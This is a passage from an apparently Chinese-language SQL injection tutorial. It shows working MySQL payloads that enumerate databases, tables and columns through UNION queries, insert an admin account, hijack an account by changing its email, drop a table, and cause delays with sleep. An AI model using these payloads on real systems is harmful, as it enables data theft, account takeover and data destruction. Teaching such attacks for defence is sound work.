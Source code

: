 
### 获取所有数据库名称和表名

Mysql中`information_schema`数据库存储着数据库信息和数据库表信息。通过union攻击方式，可以获取该数据库中存储信息

比如获取所有DB名称：

> SELECT * FROM `products` WHERE id= <font color="red"><b>123 AND 1=2 UNION SELECT 1,2,3,SCHEMA_NAME FROM information_schema.schema LIMIT 0, 1</b></font>

比如获取所有数据表信息：

> SELECT * FROM `products` WHERE id= <font color="red"><b>123 AND 1=2 UNION SELECT 1,2,SCHEMA_NAME, TABLE_NAME FROM information_schema.tables LIMIT 0, 1</b></font>


比如获取表members所有字段信息：

> SELECT * FROM `products` WHERE id= <font color="red"><b>123 AND 1=2 UNION SELECT 1,2,3, COLUMN_NAME FROM information_schema.columns WHERE table_name='members' LIMIT 0, 1</b></font>


### 新增/更改/删除数据

通过批量查询功能，可以达到数据新增、更新，删除等攻击目的。使用上面获取商品隐藏数据的场景，来举例说明：

#### 新增数据

> SELECT * FROM products WHERE category = '<font color="red"><b>Gifts'; INSERT INTO members ('name', 'email','passwd') 
        VALUES ('tink','tink@cyub.vip',md5('123456')); -- </b></font>' AND online = 1

通过插入一条数据到member表中，达到成为管理员目的。

#### 更改数据

通过把tink的邮箱地址更换掉，然后使用邮箱找回密码功能，来获取此账号。

> SELECT * FROM products WHERE category = '<font color="red"><b>Gifts'; UPDATE members set email="hacker@example.com" WHERE name="tink" ; -- </b></font>' AND online = 1


#### 删除数据

比如DROP掉数据表members

> SELECT * FROM products WHERE category = '<font color="red"><b>Gifts'; DROP TABLE members ; -- </b></font>' AND online = 1

### 时延攻击

通过SQL语句中注入sleep语句，然后大量请求，会导致mysql连接被大量占用从而达到攻击系统的目的。使用上面获取商品隐藏数据的场景，来举例说明：

> SELECT * FROM products WHERE category = '<font color="red"><b>Gifts';SELECT sleep(10) ; -- </b></font>' AND online = 1


## 注入方式总结
